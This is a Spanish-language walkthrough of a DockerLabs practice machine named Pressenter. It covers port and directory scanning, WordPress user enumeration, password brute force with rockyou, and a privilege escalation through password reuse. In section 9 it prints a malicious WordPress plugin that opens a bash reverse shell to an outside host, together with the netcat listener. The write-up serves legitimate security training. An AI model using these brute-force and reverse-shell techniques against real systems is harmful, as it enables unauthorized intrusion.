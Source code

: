 # Informe de Pentesting – Máquina *Pressenter* (DockerLabs)

* **Dificultad:** Fácil
* **Objetivo:** Obtener acceso root a la máquina
* **Autor del Informe:** Alejandro

---

## 1. Despliegue de la Máquina

Descargamos la máquina desde DockerLabs, descomprimimos y desplegamos:

```bash
unzip pressenter.zip
sudo bash auto_deploy.sh pressenter.tar
```

![](/Pressenter/Imagenes/Logo.jpeg)

---

## 2. Comprobación de Conectividad

Verificamos conectividad con la máquina virtual usando `ping`:

```bash
ping -c1 172.17.0.2
```

![](/Pressenter/Imagenes/Inicio.jpeg)
![](/Pressenter/Imagenes/Ping.jpeg)

---

## 3. Reconocimiento con Nmap

### Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![](/Pressenter/Imagenes/Puertos.jpeg)

Solo está abierto el puerto **80 (HTTP)**.

### Detección de versiones y scripts

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![](/Pressenter/Imagenes/Servicios.jpeg)

---

## 4. Navegación Web

Al acceder al sitio `http://172.17.0.2`, encontramos una página web activa.

![](/Pressenter/Imagenes/Pagina.jpeg)

---

## 5. Análisis de la Aplicación Web

### Formulario de registro

Investigamos un formulario de registro:

![](/Pressenter/Imagenes/Registro.jpeg)

Intentamos inyección SQL manual, pero no tuvo éxito.

### Código fuente

En el código fuente encontramos un dominio personalizado:

```html
http://pressenter.hl/
```

Lo agregamos al archivo `/etc/hosts`:

```bash
sudo nano /etc/hosts
```

Agregamos la línea:

```
172.17.0.2 pressenter.hl
```

![](/Pressenter/Imagenes/Fuente.jpeg)

---

## 6. Enumeración del Sitio `pressenter.hl`

### Nueva página

![](/Pressenter/Imagenes/Pagina2.jpeg)

### Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://pressenter.hl/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![](/Pressenter/Imagenes/Gobuster.jpeg)

---

## 7. Enumeración de WordPress

Utilizamos **wpscan** para identificar vulnerabilidades en el sitio WordPress:

```bash
sudo wpscan --url http://pressenter.hl/ --enumerate u,vp
```

Se identifican usuarios válidos: `pressi` y `hacker`.

![](/Pressenter/Imagenes/Usuarios.jpeg)

### Fuerza bruta de contraseñas

Usamos **rockyou.txt** para intentar descubrir credenciales:

```bash
sudo wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi,hacker
```

Se encontró la siguiente combinación válida:

* **Usuario:** pressi
* **Contraseña:** dumbass

![](/Pressenter/Imagenes/Credenciales.jpeg)

---

## 8. Acceso a WordPress

Ingresamos con éxito al panel de administración de WordPress.

![](/Pressenter/Imagenes/Sesion.jpeg)
![](/Pressenter/Imagenes/Bienbenido.jpeg)

---

## 9. Ejecución de Shell Reversa (Web Shell)

Creamos un plugin malicioso para obtener una shell inversa:

**Código del archivo `revellshell.php`:**

```php
<?php
/*
Plugin Name: RevellShell
Plugin URI: http://example.com
Description: Este es un plugin de prueba para propósitos educativos en un laboratorio controlado.
Version: 1.0
Author: Alejandro
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.10/443 0>&1'");
?>
```

Comprimimos el archivo en formato `.zip`:

```bash
7z a revellshell.zip revellshell.php
```

Subimos el plugin a través del panel de WordPress y **lo activamos**.

Antes de eso, ponemos el sistema en modo escucha:

```bash
sudo nc -lvnp 443
```

![](/Pressenter/Imagenes/Plugins.jpeg)
![](/Pressenter/Imagenes/IniciarP.jpeg)

---

## 10. Acceso a la Shell

Al activar el plugin, obtenemos una **shell reversa** con permisos del servidor web.

![](/Pressenter/Imagenes/shell.jpeg)

---

## 11. Escalada de Privilegios

Dentro del directorio `/var/www/pressenter`, encontramos el archivo `wp-config.php`, donde están las credenciales de MySQL:

* **Usuario MySQL:** admin
* **Contraseña:** rooteable

Accedemos a MySQL:

```bash
mysql -u admin -prooteable
```

Dentro de la base de datos, encontramos la tabla `wp_users` y descubrimos otro usuario:

* **Usuario:** enter
* **Contraseña:** kernellinuxhack

Probamos acceso SSH sin éxito, pero sí podemos usar `su`:

```bash
su enter
```

La misma contraseña (`kernellinuxhack`) funciona.

Probamos `su` nuevamente para root con la misma clave:

```bash
su
```

¡Acceso root logrado!

![](/Pressenter/Imagenes/Mysqlcre.jpeg)
![](/Pressenter/Imagenes/root.jpeg)

---

## 12. Conclusión

Se logró el objetivo de obtener acceso **root** a la máquina vulnerable **Pressenter**. La intrusión se basó en:

* Enumeración web y de servicios.
* Uso de herramientas como `nmap`, `wpscan`, `gobuster`.
* Ataque de fuerza bruta a WordPress.
* Subida y activación de un plugin malicioso.
* Reutilización de contraseñas para escalada de privilegios.
